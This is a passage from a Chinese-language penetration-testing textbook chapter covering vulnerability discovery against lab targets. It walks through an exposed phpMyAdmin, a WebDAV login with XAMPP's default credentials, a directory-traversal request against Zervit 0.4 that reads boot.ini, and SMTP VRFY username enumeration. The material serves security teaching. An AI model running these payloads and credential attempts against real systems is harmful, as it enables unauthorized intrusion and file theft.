当我们浏览到 Windows XP web 服务器时，看到在 *http://192.168.20.10/* 的默认网页上显示其自称为 XAMPP 1.7.2。

默认情况下，XAMPP 安装包包含了 phpMyAdmin，这是一个数据库管理网页应用程序。理想情况下，phpMyAdmin 不应该通过网络公开，或者至少应该要求凭证才能访问它。但在这个版本的 XAMPP 中，位于 *[`192.168.20.10/phpmyadmin/`](http://192.168.20.10/phpmyadmin/)* 的 phpMyAdmin 安装是开放且可用的。更糟糕的是，phpMyAdmin 允许我们在同一台 MySQL 服务器上获得 root 访问权限，而 NSE 提示我们无法连接到该服务器。通过使用 phpMyAdmin（如 图 6-15 所示），我们可以绕过这一限制，并在服务器上执行 MySQL 查询。

图 6-15. 打开的 phpMyAdmin 控制台因配置问题大声抱怨。

### 默认凭证

除了包含 phpMyAdmin，Google 搜索还告诉我们，XAMPP 1.7.3 及更早版本包含了 Web 分布式创作和版本控制（WebDAV）软件，用于通过 HTTP 管理网页服务器上的文件。XAMPP 的 WebDAV 安装使用默认的用户名和密码 *wampp:xampp*。如果这些值没有被更改，任何可以访问 WebDAV 的人都可以登录，篡改网站，甚至可能上传脚本，允许攻击者通过网页服务器获取系统的立足点。正如你在 图 6-16 中看到的，WebDAV 确实出现在这台服务器上。

图 6-16. WebDAV 安装

我们可以使用工具 Cadaver 与 WebDAV 服务器交互。在 示例 6-11 中，我们使用 Cadaver 尝试连接到 *http://192.168.20.10* 上的 WebDAV 服务器，并测试默认凭证集。

示例 6-11. 使用 Cadaver

```
root@kali:/# **cadaver http://192.168.20.10/webdav**
Authentication required for XAMPP with WebDAV on server `192.168.20.10':
Username: wampp
Password:
dav:/webdav/> ❶
```

Cadaver 登录成功 ❶。我们的 Windows XP 目标使用了 WebDAV 的默认凭证，我们将能够利用这一点。现在我们已经获得了 WebDAV 的访问权限，我们可以向网页服务器上传文件。

## 手动分析

有时候，没有什么解决方案能比手动漏洞分析更有效，去看一个服务是否会导致系统被攻破，而且没有比实践更好的提高方式。接下来的章节中，我们将探索一些通过端口和漏洞扫描获得的有前景的线索。

### 探索一个奇怪的端口

在我们的自动扫描中，有一个端口没有被检测到，那就是我们 Windows 目标机器上的 3232 端口。如果你尝试使用 Nmap 版本扫描来扫描这个端口（如我们在 第五章 末尾所做的那样），你会注意到它会崩溃。这种行为表明，监听程序是为了接收特定的输入而设计的，并且它在处理其他内容时遇到了困难。

这种行为对渗透测试人员很有趣，因为在处理格式错误的输入时崩溃的程序未能正确验证输入。回想一下第五章中，我们在程序崩溃的过程中，输出让我们认为该软件是一个 Web 服务器。使用浏览器连接到该端口，如图 6-17 所示，可以确认这一点。

图 6-17。端口 3232 上的 Web 服务器

提供的网页没有告诉我们太多信息，但我们可以从这里手动使用 Netcat 连接到该端口。我们知道这是一个 Web 服务器，因此我们将以 Web 服务器的方式与之通信。我们知道可以浏览到默认网页，因此我们可以输入**`GET / HTTP/1.1`**请求 Web 服务器提供默认页面（见示例 6-12）。

示例 6-12。使用 Netcat 连接到端口

```
root@kali:~# **nc 192.168.20.10 3232**
**GET / HTTP/1.1**
HTTP/1.1 200 OK
Server: Zervit 0.4 ❶
X-Powered-By: Carbono
Connection: close
Accept-Ranges: bytes
Content-Type: text/html
Content-Length: 36

<html>
<body>
hi
</body>
</html>root@bt:~#
```

服务器将自己标识为 Zervit 0.4 ❶。对于这款软件来说情况不妙，因为在 Google 上搜索 Zervit 0.4 时，第一个自动补全的条目是“Zervit 0.4 exploit”（Zervit 0.4 漏洞）。这款 Web 服务器软件存在多个安全问题，包括缓冲区溢出和本地文件包含漏洞，这使我们能够提供系统上的其他文件。由于这个服务非常敏感，最好避免进行缓冲区溢出攻击，因为一个错误的操作可能会导致它崩溃。另一方面，本地文件包含漏洞看起来很有前景。我们知道服务器可以处理 HTTP `GET`请求。例如，我们可以通过`GET`命令回退五个目录到 C 盘来下载 Windows XP 的*boot.ini*文件，如示例 6-13 所示。

示例 6-13。Zervit 0.4 中的本地文件包含

```
root@kali:~# **nc 192.168.20.10 3232**
**GET /../../../../../boot.ini HTTP/1.1**
HTTP/1.1 200 OK
Server: Zervit 0.4
X-Powered-By: Carbono
Connection: close
Accept-Ranges: bytes
Content-Type: application/octet-stream
Content-Length: 211

[boot loader]
timeout=30
default=multi(0)disk(0)rdisk(0)partition(1)\WINDOWS
[operating systems]
multi(0)disk(0)rdisk(0)partition(1)\WINDOWS="Microsoft Windows XP Home Edition" /fastdetect /NoExecute=OptIn
```

我们能够下载*boot.ini*，这是一个配置文件，告诉 Windows 在启动时显示哪些操作系统选项。我们将在第八章中使用这个本地文件包含漏洞下载更多敏感文件。

### 查找有效用户名

如果我们知道服务的有效用户名，成功进行密码攻击的机会可以大大增加。（我们将在第九章中详细探讨这一点。）一种找到邮件服务器有效用户名的方法是使用`VRFY SMTP`命令，如果该命令可用的话。顾名思义，`VRFY`用于验证用户是否存在。NSE 在上一章中发现`VRFY`动词在 Windows XP 目标机器上是启用的。使用 Netcat 连接到 TCP 端口 25，并使用`VRFY`检查用户名，如示例 6-14 所示。

示例 6-14。使用`SMTP VRFY`命令

```
root@kali:~# **nc 192.168.20.10 25**
220 georgia.com SMTP Server SLmail 5.5.0.4433 Ready ESMTP spoken here
**VRFY georgia**
250 Georgia<georgia@>
**VRFY john**
551 User not local
```

使用`VRFY`我们发现*georgia*是一个有效的用户名，但没有名为*john*的用户。我们将在第九章中讨论如何使用有效的用户名尝试猜测密码。

## 总结

在本章中，我们介绍了多种方法来发现我们目标上的可利用漏洞。通过使用多种工具和技术，我们能够找到多种攻击我们目标的方式，包括我们常用的 MS08-067 漏洞攻击 Windows XP SMB 服务器，以及 Zervit 0.4 Web 服务器上的本地文件包含漏洞，允许我们下载系统文件。使用`VRFY`，我们发现了一个有效的用户名，可以用于对邮件服务器进行密码猜测攻击。

我们了解到，SLMail 服务器的 POP3 服务可能存在漏洞，基于其报告的版本号（尽管我们无法确定这一点），此外，我们在 Web 服务器上发现了一个开放的 phpMyAdmin 安装，给我们提供了对底层数据库的 root 访问权限，还发现了一个默认凭据的 XAMPP 安装，这使得我们可以将文件上传到 Web 服务器。在 Linux 目标上，我们发现了一个具有写权限的 NFS 共享，使我们能够写入用户的*.ssh*目录，同时还发现了一个不太显眼的 TikiWiki 安装，它似乎包含一个代码执行漏洞。Vsftpd 2.3.4 FTP 服务器可能由于 Vsftpd 存储库的被攻破，存在一个隐藏的后门。

在本书的这一部分，我们可以看到我们的 Windows XP 和 Linux 目标机器存在许多问题。我们的 Windows 7 目标缺乏攻击面，看起来相当安全，但正如我们稍后将看到的，那坚固的外壳下隐藏着一些漏洞。在我们开始利用这些漏洞之前，下一章将讨论如何捕获流量以获取敏感信息，如登录凭据。
